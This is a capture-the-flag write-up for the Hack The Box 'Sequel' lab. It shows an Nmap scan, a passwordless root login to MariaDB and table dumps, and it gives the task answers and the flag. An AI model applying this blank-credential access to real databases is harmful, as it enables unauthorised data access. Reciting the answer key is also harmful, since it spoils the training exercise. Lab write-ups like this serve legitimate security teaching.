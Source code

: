 ```
Platform: HackThebox
Challenge: Sequel
OS: 
Task: Vulnerability Assessment, Databases, MySQL, SQL, Penetration Tester Level 1, Reconnaissance, Weak Credentials
Tools Used: 
Author: Paul B.
```

### Scanning
Nmap Output
```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-10 20:38 IST
Nmap scan report for 10.129.95.232
Host is up (0.31s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
|   Some Capabilities: DontAllowDatabaseTableColumn, Support41Auth, LongColumnFlag, ConnectWithDatabase, IgnoreSigpipes, SupportsCompression, InteractiveClient, Speaks41ProtocolOld, FoundRows, Speaks41ProtocolNew, SupportsTransactions, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, ODBCClient, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: Ir"PLkUHJ{KF]#4w"<H6
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 189.02 seconds
```

### Enumeration
Connect to remote mysql server using following command `mysql -h <Target-IP> -u root`

![HTB - Sequel Mysql 1.png](https://github.com/paulb-csr/CTF-Writeups/blob/main/HackTheBox/Sequel/HTB%20-%20Sequel%20Mysql%201.png)

List tables - `show tables;`
```
mysql> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.16 sec)
```
Fetch data from `users` table - `select * from users;`
```
mysql> select * from users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0.36 sec)
```
Searching for flag in config table
Fetch data from `config` table - `select * from config;`
```
mysql> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.16 sec)

```

TASK 1

What does the acronym SQL stand for?
```
Structured Query Language
```

TASK 2

During our scan, which port running mysql do we find?
```
3306
```

TASK 3

What community-developed MySQL version is the target running?
```
Mariadb
```

TASK 4

What switch do we need to use in order to specify a login username for the MySQL service?
```
-u
```

TASK 5

Which username allows us to log into MariaDB without providing a password?
```
root
```

TASK 6

What symbol can we use to specify within the query that we want to display everything inside a table?
```
*
```

TASK 7

What symbol do we need to end each query with?
```
;
```

SUBMIT FLAG

Submit root flag
```
7b4bec00d1a39e3dd4e021ec3d915da8
```
